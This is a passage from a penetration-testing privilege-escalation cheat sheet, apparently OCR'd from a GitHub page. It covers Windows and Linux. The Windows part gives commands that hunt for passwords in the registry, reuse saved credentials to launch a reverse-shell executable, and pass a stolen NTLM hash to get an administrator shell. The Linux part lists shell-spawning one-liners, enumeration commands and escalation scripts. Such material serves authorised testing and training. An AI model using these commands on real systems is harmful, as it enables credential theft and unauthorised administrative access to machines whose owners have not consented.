 ```bash
reg query "HKCU\\Software\\SimonTatham\\PuTTY\\Sessions"

### Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### RunAs - Savedcreds

```bash
cmdkey /list  #Displays stored credentials, looks for any potential users
#Transfer the reverseshell
runas /savecred /user:admin C:\\temp\\reverse.exe
```

#### Pass the Hash

If hashes are obtained through some means then use psexec, smbexec and obtain the shell as Administrator

```bash
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe //TARGET_IP cmd
```

### Linux Privilege Escalation

#### TTY Shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
```

#### Basic

```bash
find / -writable -type d 2>/dev/null
dpkg -l  #Installed applications on debian system
cat /etc/fstab  #Listing mounted drives
lsblk  #Listing all available drives
lsmod  #Listing loaded drivers
```

#### Automated Scripts

```
[linPEAS.sh](<http://linPEAS.sh>)
[LinEnum.sh](<http://LinEnum.sh>)
[linuxprivchecker.py](<http://linuxprivchecker.py>)
unix-privesc-check
Metasploit: multi/recon/local_exploit_suggester
```
